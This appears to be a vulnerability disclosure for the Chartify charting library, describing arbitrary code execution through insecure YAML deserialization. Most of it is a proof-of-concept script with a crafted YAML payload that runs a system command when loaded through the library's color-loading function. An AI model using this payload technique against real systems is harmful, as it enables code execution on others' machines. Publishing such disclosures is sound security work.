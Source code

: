 # Description

**Chartify** is a Python library that makes it easy for data scientists to create charts.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>

repo: https://github.com/spotify/chartify

# Proof of Concept

```python
#!/usr/bin/env python3
from chartify._core.colors import * 

payload = '''
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
'''
open('pwn.yml', 'w+').write(payload)

CustomColors.from_yaml('hek', 'pwn.yml')
print("pwned 🏴")
```

* `pip3 install chartify`
* `python3 exploit.py`

